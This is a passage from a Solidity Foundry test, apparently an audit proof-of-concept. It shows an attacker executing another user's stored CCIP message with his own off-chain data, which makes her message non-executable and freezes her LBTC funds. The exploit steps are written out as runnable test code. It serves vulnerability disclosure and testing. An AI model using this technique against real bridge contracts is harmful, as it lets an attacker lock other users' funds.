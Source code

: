 ```solidity
        vm.stopPrank();

        //Dummy offchain data representing the "amount and receiver"
        bytes memory aliceData = abi.encode(amount1, alice);
        bytes memory bobData = abi.encode(amount2, alice);

        //Fetching the stored msgIds for manual retrial
        bytes32 msgIdAlice = ccipRouter.getMsgId(alice);
        bytes32 msgIdBob = ccipRouter.getMsgId(bob);

        //Bob will maliciously execute Alice's message with his offchain data, rendering her message non-executable and the funds frozen;

        vm.startPrank(bob);

        ccipRouter.manuallyExecute(msgIdAlice, bobData);

        vm.stopPrank();

        uint256 aliceBalanceMaliciousMessage = lbtc.balanceOf(alice);
        console.log("Alice Balance after malicious message executed: ", aliceBalanceMaliciousMessage);

        //Alice tries to execute her own message, but it falis as it was already executed:

        vm.startPrank(alice);

        vm.expectRevert();
        ccipRouter.manuallyExecute(msgIdAlice, aliceData);

        vm.stopPrank();

        //Bob's message can't be used to execute alice's offchain data as he included additional data in the message that should be routed to him (via offRamp) which reverts when the offRamp calls the interface on his address;
    }
}

```

